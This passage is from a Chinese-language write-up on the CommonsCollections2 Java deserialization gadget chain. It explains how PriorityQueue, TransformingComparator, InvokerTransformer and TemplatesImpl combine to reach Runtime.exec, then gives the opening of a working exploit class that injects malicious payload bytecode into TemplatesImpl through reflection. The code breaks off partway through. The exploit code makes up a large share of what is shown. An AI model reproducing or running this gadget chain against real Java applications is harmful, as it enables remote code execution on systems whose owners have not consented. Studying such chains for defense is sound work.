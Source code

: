 

## CommonsCollections2

反序列化调用链如下所示：

```
PriorityQueue.readObject()
                PriorityQueue.heapify()
                    PriorityQueue.siftDown()
                        PriorityQueue.siftDownUsingConparator()
                            TransformingComparator.compare()
                                InvokerTransformer.transform()
　　　　　　　　　　　　　　　　　　TemplatesImpl.newTranformer()
　　　　　　　　　　　　　　　　　　　　Method.invoke()
                               　　　　  Runtime.exec()
```

cc2的利用PriorityQueue队列键值反序列化后进行key值比较，可以自定义比较器comparator，因此利用commonscollections4里面的TransformingComparator，在该类的compare函数中又会调用this.transformer.transform来对key进行转换，因为key是从外面直接传进来的，即可控的，这里key其实是一个templatesimpl的实例。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01eef47f84a43f6232.png)

在打fastjson1.2.24中就用到了jdk的templatesimpl这个内置类，在其_bytecodes字段中放入恶意类的字节码，将在调用其getTransletInstance中进行实例化，所以这里只需要一个invoketransformer即可，直接反射执行调用templatesImpl的newTransformer或者getoutputProperties来实例化templates的_bytecodes字段中的类进行rce<br>**CommonsCollections2.java：**

```
package CommonCollections2;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;
import  com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
public class exp `{`
    public static void main(String[] args) throws ClassNotFoundException, NotFoundException, IOException, CannotCompileException, NoSuchFieldException, IllegalAccessException `{`
        //封装恶意的templatesImpl实例
        TemplatesImpl tmp = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(payload.class));
        CtClass clazz = pool.get(payload.class.getName());
        final byte[] clazzByte = clazz.toBytecode();
        //_bytecode为private，需要在其中放入rce的payload类的字节码
        Field _btcode = TemplatesImpl.class.getDeclaredField("_bytecodes");
        _btcode.setAccessible(true);
        _btcode.set(tmp,new byte[][]`{`clazzByte`}`);
        //_name不为空即可
        Field _name = TemplatesImpl.class.getDeclaredField("_name");
        _name.setAccessible(true);
        _name.set(tmp,"tr1ple");
        //_tfactory可为空，不设置也可以
        Field _tf = TemplatesImpl.class.getDeclaredField("_tfactory");
        _tf.setAccessible(true);
        _tf.set(tmp,null);
        //构造priorityqueue实例
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(1);
```